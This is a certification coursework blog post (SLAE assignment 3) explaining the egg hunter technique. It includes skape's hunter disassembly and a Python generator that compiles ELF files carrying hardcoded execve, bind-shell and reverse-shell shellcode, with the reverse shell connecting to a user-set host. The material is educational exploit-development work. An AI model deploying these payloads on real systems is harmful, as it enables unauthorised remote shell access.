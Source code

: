 # Assignment 3: Egg Hunter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

### Problem

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads

### Solution

The first part of the task was to research what the Egg Hunter is and how it works. The following paper was used as the theoretical basis and the cornerstone of the final implementation:

![Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) by skape

The following Egg Hunter implementation used was used as the prototype to complete the task:

```nasm
00000000  6681C9FF0F        or cx,0xfff
00000005  41                inc ecx
00000006  6A43              push byte +0x43
00000008  58                pop eax
00000009  CD80              int 0x80
0000000B  3CF2              cmp al,0xf2
0000000D  74F1              jz 0x0
0000000F  B841414141        mov eax,0x41414141
00000014  89CF              mov edi,ecx
00000016  AF                scasd
00000017  75EC              jnz 0x5
00000019  AF                scasd
0000001A  75E9              jnz 0x5
0000001C  FFE7              jmp edi
```

As described skape's paper, the above code will execute the `sigaction()` system call on each memory within an address space incrementally in an attempt to identify accesible memory regions. For each region identified, the code will incrementally traverse it looking for the Egg, which is nothing but a unique known string injected at the beginning of the actual shellcode. Since the Egg is 8-byte aligned, the next address after the Egg will be the shellcode, which is where execution flow is transfered after the Egg is identified. 

The final imlementation in Python uses the prototype Egg Hunter shellcode to add egg, shellcode and output file configuration options. The script allows to choose between Execve, Bind TCP, and Reverse TCP shellcodes, providing attional functionality for setting the remote and local host IP and port parameters. 

## egghunter.py

```python
#!/usr/bin/python

#####	Generate an executable 		

def generateElf(shellcode):
	print "\n[+] Staged Shellcode Length: %d\n" % len(bytearray(shellcode))
	sc = ""
	for c in bytearray(shellcode):
		sc += "\\x%02x" % c
	print sc

	egg = ""
	for c in range(0, 8, 2):
		egg += "\\x%s%s" % (args.egg[c], args.egg[c+1])
	print "\n[+] Egg: %s" % egg

	skeleton = '''
	#include<stdio.h>
	#include<string.h>
	#define EGG "__EGG__"
	unsigned char code[] = EGG EGG "__SHELLCODE__";
	unsigned char hunter[] = \\
		"\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74"
		"\\xf1\\xb8"   EGG  "\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7";
	main() {
		printf("Hunter Shellcode Length:  %d\\n", strlen(hunter));
		int (*ret)() = (int(*)())hunter;
		ret();
	}	
	'''

	skeleton = skeleton.replace("__EGG__", egg)
	skeleton = skeleton.replace("__SHELLCODE__", sc)

	with open("a.c", "w") as f:
		f.write(skeleton)

	os.system("gcc a.c -fno-stack-protector -z execstack")
	os.rename("a.out", args.outfile)
	os.rename("a.c", "%s.c" % args.outfile)

	print "\n[+] Executable: %s\n" % args.outfile


def execShellcode(args):

	shellcode = (
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d"
		"\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80"
	)

	generateElf(shellcode)


def bindShellcode(args):

	if args.lport not in range(1,65536):
		sys.exit("[!] Bad LPORT!")

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb3\x01"
		"\xb0\x66\xcd\x80\x89\xc6\x31\xc0\xb0\x01\x50\x89\xe1\x51"
		"\x40\x50\x48\x50\x56\x89\xe1\xb3\x0e\xb0\x66\xcd\x80\x31"
		"\xc0\x50\x66\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51"
		"\x56\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x66\x68\x02\x10\x56"
		"\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89"
		"\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89"
		"\xfb\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68"
		"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2"
		"\x53\x89\xe1\xb0\x0b\xcd\x80\xe9\x76\xff\xff\xff"
		)

	generateElf(shellcode)


def revShellcode(args):

	if len(args.lhost.split(".")) != 4: 
		sys.exit("[!] Bad LHOST!")

	if args.lport not in range(1,65536):
		sys.exit("[!] Bad LPORT!")

	host = ""
	addr = args.lhost.split(".")
	for a in addr:
		host += struct.pack(">B", int(a))

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1"
		"\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x68"+host+"\x66"
		"\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56"
		"\x89\xe1\xb3\x03\xb0\x66\xcd\x80\x31\xc9\xb1\x02"
		"\x89\xf3\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31"
		"\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
		"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
		)

	generateElf(shellcode)


import sys
import os
import struct
import argparse

a = argparse.ArgumentParser()
suba = a.add_subparsers()

execa = suba.add_parser("exec")
execa.set_defaults(func=execShellcode)

binda = suba.add_parser("bind")
binda.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
binda.set_defaults(func=bindShellcode)

reva = suba.add_parser("reverse")
reva.add_argument("--lhost", "-l", required=True, help="LHOST (must be IPv4)")
reva.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
reva.set_defaults(func=revShellcode)

a.add_argument("--egg", "-e", default="41414141", help="EGG to hunt (must be 8 bytes; default: 41414141)")
a.add_argument("--outfile", "-o", default="hunter", help="Output ELF executable filename (default: hunter)")

args = a.parse_args()
print "\n",args,"\n"

if len(args.egg) != 8: 
	sys.exit("[!] Bad EGG!")

args.func(args)
```

## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-3/a3.png "Example")
